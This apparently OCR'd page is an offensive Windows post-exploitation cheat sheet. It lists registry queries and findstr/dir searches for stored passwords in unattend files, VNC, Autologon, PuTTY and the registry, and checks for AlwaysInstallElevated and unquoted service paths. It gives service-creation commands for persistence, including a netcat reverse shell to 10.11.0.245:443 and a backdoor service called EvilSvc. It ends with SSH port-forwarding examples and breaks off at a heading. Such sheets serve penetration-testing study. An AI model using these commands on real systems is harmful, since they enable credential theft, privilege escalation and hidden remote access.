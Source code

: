 //look for (F)ull, (M)odify, (W)rite
AlwaysInstallElevated MSI
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Stored Credentials: Windows
c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
​
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf
​
# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
​
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"
​
# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
​
# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
Unquoted Service Path
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
Persistence via Services
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
​
# powersehll
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
Port Forwarding / SSH Tunneling
SSH: Local Port Forwarding
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
SSH: Dynamic Port Forwarding